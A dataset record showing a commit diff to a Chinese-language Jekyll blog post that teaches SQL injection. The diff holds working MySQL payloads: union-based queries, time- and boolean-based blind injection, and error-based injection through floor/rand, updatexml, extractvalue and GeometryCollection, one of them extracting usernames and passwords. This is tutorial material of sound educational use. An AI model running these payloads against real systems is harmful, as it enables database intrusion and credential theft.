

Before and after one commit to HouKC/houkc.github.io, a Jekyll site: the page built from _posts/2020-11-26-SQLInjection1.md, in a window 1280 px wide and 900 px high, scrolled down 4805 px. Shown: the whole window, without its empty margins (233-1230 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
update SQLInjection1.md

````diff
--- a/_posts/2020-11-26-SQLInjection1.md
+++ b/_posts/2020-11-26-SQLInjection1.md
@@ -75,14 +75,14 @@ id=jack
 id=ja'+'ck
 ```
 
-- 如果以下两个请求结果相同，则很可能存在SQL注入漏洞，且数据库为ORACLE。
+- 如果以下两个请求结果相同，则很可能存在SQL注入漏洞，且数据库为Oracle。
 
 ```
 id=jack
 id=ja'||'ck
 ```
 
-- 如果以下两个请求结果相同，则很可能存在SQL注入漏洞，且数据库为MYSQL。
+- 如果以下两个请求结果相同，则很可能存在SQL注入漏洞，且数据库为MySQL。
 
 ```
 id=jack
@@ -108,13 +108,13 @@ id=-1' order by 3 -- -
 
 - \' 号前用1或者其他的，也可以置空，视注入语句需要的情况而定，如果是需要前面为真，则需要id等于一个存在的值，如果是要假，则找一个不存在的值即可。
 
-- 最后面的“\-\- -”(注意中间有空格)是用来注释的，也可以用“\-\-\+”或“\#”。
+- 最后面的 “\-\- -” （注意中间有空格）是用来注释的，也可以用 “\-\-\+” 或 “\#” 。
 
 上面这些是用来测试使用了多少个字段，知道了字段数之后可以进行的数据库信息查询。
 
 ```
 id=-1' union select 1, database() -- -		# 输出当前数据库名
-id=-1' union select 1, user() -- -			# 输出当前用户名
+id=-1' union select 1, user() -- -		# 输出当前用户名
 id=-1' union select 1, version() -- -		# 输出数据库版本信息
 ```
 如果需要输出的字段比原来输出的少，可以用下面这句进行拼接输出，利用concat或group_concat函数进行拼接。
@@ -156,7 +156,7 @@ id=-1' union select [列名] from [表名] -- -
 
 盲注是注入攻击的一种，向数据库发送true或false这样的问题，并根据应用程序返回的信息判断结果，这种攻击的出现是因为应用程序配置为只显示常规错误，但并没有解决SQL注入存在的代码问题。
 
-1. 基于时间的盲注
+#### 1. 基于时间的盲注
 
 ```
 id=1' and if(ascii(substr(database(),0,1))<N, sleep(3), 1) -- -
@@ -178,9 +178,7 @@ id=1' and (select if(length(database())>N, sleep(5), null) -- -
 id=-1' or (length(database()))>N or if(1=1, sleep(5), null) or '1'='1
 ```
 
-
-
-2. 基于布尔的盲注
+#### 2.  基于布尔的盲注
 
 ```
 id=1' and length(database()) -- -
@@ -212,20 +210,22 @@ id=1' and ascii(substr(database(), 0, 1))<N -- -
 
 获取数据库
 ```
-0' union select 1,2,3 from (select count(*),concat((select concat(version(),0x3a,0x3a,database(),0x3a,0x3a,user(),0x3a) limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a -- -
+id=-1' union select 1,2,3 from (select count(*),concat((select concat(version(),0x3a,0x3a,database(),0x3a,0x3a,user(),0x3a) limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a -- -
 ```
 
 获取表名
 ```
-0' union select 1,2,3 from (select count(*),concat((select concat(table_name,0x3a,0x3a) from information_schema.tables where table_schema=database() limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a -- -
+id=-1' union select 1,2,3 from (select count(*),concat((select concat(table_name,0x3a,0x3a) from information_schema.tables where table_schema=database() limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a -- -
 ```
 
 获取用户信息
 ```
-0' union select 1,2,3 from (select count(*),concat((select concat(username,0x3a,0x3a,password,0x3a,0x3a) from security.users limit 1,1), floor(rand(0)*2))x from information_schema.tables group by x)a -- -
+id=-1' union select 1,2,3 from (select count(*),concat((select concat(username,0x3a,0x3a,password,0x3a,0x3a) from security.users limit 1,1), floor(rand(0)*2))x from information_schema.tables group by x)a -- -
 ```
 
 #### 2. updatexml报错注入
+
+MySQL 大于等于5.1.5才能用updatexml报错注入。
 
 updatexml(xml_document, xpath_string, new_value)
 
@@ -279,11 +279,17 @@ id=-1' or updatexml(1, concat(0x7e, version(), 0x7e), 1) -- -
 
 #### 3. extractvalue报错注入
 
+MySQL 大于等于5.1.5才能extractvalue报错注入。
+
 ```
-1' and extractvalue(1,concat(0x7e,database(),0x7e)) -- -
+id=1' and extractvalue(1,concat(0x7e,database(),0x7e)) -- -
 ```
 
+#### 4. GeometryCollection报错注入
 
+```
+id=1' and GeometryCollection((select * from(select * from(select user())a)b)) -- -
+```
 
 ## 0x07 宽字节注入
 
````
Also changed, not shown: other parts of _posts/2020-11-26-SQLInjection1.md (+1 -1 lines).
